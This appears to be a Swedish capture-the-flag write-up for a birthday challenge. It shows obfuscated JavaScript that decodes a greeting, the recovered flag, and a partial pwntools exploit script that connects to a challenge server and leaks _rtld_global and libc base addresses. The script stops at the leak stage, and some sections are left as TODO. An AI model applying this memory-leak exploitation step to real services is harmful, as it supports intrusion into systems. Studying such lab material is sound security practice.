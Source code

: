 ```javascript
i]])),d.map(y=>(i=i+1&
a,j=j+s[i]&a,[s[i],s[j
]]=[s[j],s[i]],y^s[s[i
]+s[j]&a]))),l="Upvhi\
!mvdl-!usz!bhbjo!ofyu\
!zfbs",r=Math.random,c
=c=>c.charCodeAt(),k=[
r(),r(),r()].map(b=>b*
a|0),r=x(k,m),s=String
.fromCharCode,r=s(...r
),r.startsWith("ZETA")
?r.slice(4):s(...[...l
].map(a=>a.charCodeAt(
)-1))/////////////////
```

TODO

```
Grattis på 33 års dagen Calle, du verkar ha dina skills i behåll trots din ålder,
du har löst del 1 av våra challs,
här har du lokes chall: :?ABCDEFGHI;J5KLMNOPQRSTUVWXYZ[\3) $!7&]1/^_`ab>+cde%fghi4jklmn-o".p29qr(,stuvw=*x0y8z{<|#6'}@
och här är nnewrams chall: https://watevr.xyz/zeta.c
```

Flag: "Grattis på 33 års dagen Calle, du verkar ha dina skills i behåll trots din ålder"

## nnewram's Challenge

URL: https://watevr.xyz/zeta.c  

TODO

```python
#!/usr/bin/env python3

from pwn import *

HOST = '83.209.18.82'
PORT = 1337

#HOST = 'localhost'
#PORT = 31337

r = remote(HOST, PORT)
libc = ELF('./libc.remote.so.6')

r.recvuntil('cka: ')
rtld_global_addr = int(r.recvline().strip().decode('ascii'))
log.info('Leak: %#014x', rtld_global_addr)

libc_addr_ptr = rtld_global_addr - 72
# $rip = *(_rtld_global + 3840)
# $rdi = _rtld_global+2312
rtld_offset = (3840 - 2312)//8

r.recvuntil('cka: ')
r.sendline(str(libc_addr_ptr))

r.recvuntil('fel address: ')

libc_ptr = int(r.recvline().decode('ascii').strip())
libc_base = libc_ptr - 1471088

log.info('Inside libc: %#016x', libc_ptr)
```